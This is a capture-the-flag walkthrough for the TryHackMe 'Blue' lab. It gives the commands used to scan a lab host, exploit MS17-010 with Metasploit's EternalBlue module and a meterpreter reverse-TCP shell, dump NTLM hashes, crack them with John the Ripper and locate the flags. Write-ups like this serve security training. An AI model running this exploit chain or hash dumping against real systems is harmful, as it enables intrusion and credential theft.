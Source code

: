# Blue

**Room Link:** [https://tryhackme.com/room/blue](https://tryhackme.com/room/blue)

## **Walkthrough**

### **Recon**

```
nmap -A 10.10.68.22
```

<img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt="" data-size="original">

The box is vulnerable to ms17-010

```
nmap -p135,139,445,3389 --script=vuln 10.10.68.22
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Gain Access / Escalate

```
msfconsole 
search eternalblue 
use exploit/windows/smb/ms17_010_eternalblue 
set payload windows/x64/meterpreter/reverse_tcp 
set RHOSTS 10.10.68.22 
run
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

### Cracking

```
hashdump
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

<figure><img src="../../.gitbook/assets/image (3) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Flags

Just ran this to find the locations of all the flags then grabbed them

```
cd C:\
dir "flag*" /s
```

<figure><img src="../../.gitbook/assets/image (5) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>
